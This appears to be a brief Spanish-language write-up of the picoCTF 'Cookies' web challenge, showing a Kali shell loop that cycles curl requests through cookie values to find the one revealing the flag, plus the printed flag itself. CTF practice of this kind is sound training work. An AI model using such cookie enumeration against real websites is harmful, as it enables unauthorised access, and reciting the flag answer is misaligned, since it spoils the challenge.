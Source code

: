 # Cookies
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:29649/](http://mercury.picoctf.net:29649/)

## Solución
Con la terminal de Kali Linux
```
┌──(kali㉿kali)-[~]
└─$ for i in {0..20}; do curl -s http://mercury.picoctf.net:29649/check -H "Cookie: name=$i"; done | grep picoCTF
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}</code></p>

```